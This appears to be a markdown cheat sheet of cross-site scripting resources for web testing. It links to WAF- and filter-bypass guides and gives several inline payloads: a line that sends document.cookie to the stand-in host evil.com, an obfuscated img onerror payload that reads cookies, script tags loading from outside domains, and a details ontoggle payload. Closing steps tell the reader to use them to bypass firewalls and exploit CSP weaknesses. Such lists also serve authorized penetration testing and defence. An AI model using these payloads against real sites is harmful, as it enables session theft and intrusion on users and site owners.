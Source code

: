 
---

### **XSS (Cross-Site Scripting) Resources**

#### **1. WAF Bypass & XSS Cheat Sheets**
- **Awesome WAF**:
  ```bash
  https://github.com/0xInfection/Awesome-WAF
  ```
- **Ghetto Bypass**:
  ```bash
  https://d3adend.org/xss/ghettoBypass
  ```
- **Browser's XSS Filter Bypass Cheat Sheet**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
  ```
- **Angular Bypass**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#angularの利用
  ```

#### **2. XSS Techniques**
- **HTTP Only Bypass**:
  ```bash
  location.href = "evil.com?c='escape(document.cookie)'"
  ```
- **Meta Refresh**:
  ```bash
  <meta http-equiv="refresh" content="0; url=http://example.com/">
  ```
- **Method Spoofing**:
  ```bash
  POST /endpoint
  Host: example.com
  _method=POST&data[user][username]=xsspayload
  ```
- **SameSite Bypass**:
  ```bash
  https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
  ```
- **Script Source Bypass**:
  ```bash
  <script src=//14.rs>
  <script src=//ł.rip>
  ```
- **XSS Payload**:
  ```bash
  "><img/src='x'/onerror="parent['ale'+'rt'](parent['doc'+'ument']['cookie']);">
  ```
- **Using `eval`**:
  ```bash
  Use eval, but always make sure where to use + and where to use %2b.
  ```

#### **3. CSP (Content Security Policy)**
- **CSP Bypass**:
  ```bash
  https://www.notion.so/CSP-10615e0fe55e8064a661dcfb7c0ee992?pvs=21
  ```

#### **4. Additional Resources**
- **Medium Articles**:
  ```bash
  https://medium.com/@DrakenKun/how-i-was-able-to-find-4-cross-site-scripting-xss-on-vulnerability-disclosure-program-e2f39199ae16
  ```
- **Twitter Threads**:
  ```bash
  https://twitter.com/Botami143/status/1741363525568823385?t=Mh-SqOmunyxQyK7UhoQASQ&s=19
  ```
- **Hahwul's XSS Guide**:
  ```bash
  https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
  ```
- **WAF Bypass XSS Payloads**:
  ```bash
  https://github.com/gprime31/WAF-bypass-xss-payloads/tree/master?fbclid=IwAR3oBisE0veAu87f77xZVubYTTLa7k0bWKo7HTMprPgxfqm_-P2hKDAu2do
  ```
- **OWASP XSS Filter Evasion Cheat Sheet**:
  ```bash
  https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  ```
- **Zapstiko's XSS Payloads**:
  ```bash
  https://github.com/zapstiko/wordlists/blob/main/xss_payloads
  ```

#### **5. Advanced XSS Payloads**
- **Details Tag Exploit**:
  ```bash
  <dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
  ```

---

### **How to Use This Information**
1. **WAF Bypass**:
   - Use the provided cheat sheets and payloads to bypass Web Application Firewalls (WAFs).

2. **XSS Techniques**:
   - Experiment with different XSS payloads and techniques to find vulnerabilities in web applications.

3. **CSP Bypass**:
   - Study CSP bypass techniques to understand how to exploit Content Security Policy misconfigurations.

4. **Additional Resources**:
   - Refer to the provided links for more in-depth guides and examples of XSS exploitation.

---
